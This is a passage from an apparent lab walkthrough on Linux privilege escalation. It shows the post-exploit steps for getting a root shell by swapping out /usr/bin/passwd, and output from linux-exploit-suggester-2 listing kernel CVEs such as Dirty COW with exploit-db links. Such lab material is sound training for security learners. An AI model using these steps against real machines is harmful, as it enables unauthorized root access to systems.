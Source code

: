 Once the exploit completes, run /usr/bin/passwd to gain a root shell:

```bash
/usr/bin/passwd
```

Remember to restore the original /usr/bin/passwd file and exit the root shell before continuing!

```bash
mv /tmp/bak /usr/bin/passwd
exit
```

## #1 - Read and follow along with the above.

```bash
user@debian:~$ /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl 

  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 2.6.32
  Searching 72 exploits...

  Possible Exploits
  [1] american-sign-language
      CVE-2010-4347
      Source: http://www.securityfocus.com/bid/45408
  [2] can_bcm
      CVE-2010-2959
      Source: http://www.exploit-db.com/exploits/14814
  [3] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [4] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [5] half_nelson1
      Alt: econet       CVE-2010-3848
      Source: http://www.exploit-db.com/exploits/17787
  [6] half_nelson2
      Alt: econet       CVE-2010-3850
      Source: http://www.exploit-db.com/exploits/17787
  [7] half_nelson3
      Alt: econet       CVE-2010-4073
      Source: http://www.exploit-db.com/exploits/17787
  [8] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [9] pktcdvd
      CVE-2010-3437
      Source: http://www.exploit-db.com/exploits/15150
  [10] ptrace_kmod2
      Alt: ia32syscall,robert_you_suck       CVE-2010-3301
      Source: http://www.exploit-db.com/exploits/15023
  [11] rawmodePTY
      CVE-2014-0196
      Source: http://packetstormsecurity.com/files/download/126603/cve-2014-0196-md.c
  [12] rds
      CVE-2010-3904
      Source: http://www.exploit-db.com/exploits/15285
  [13] reiserfs
      CVE-2010-1146
      Source: http://www.exploit-db.com/exploits/12130
```
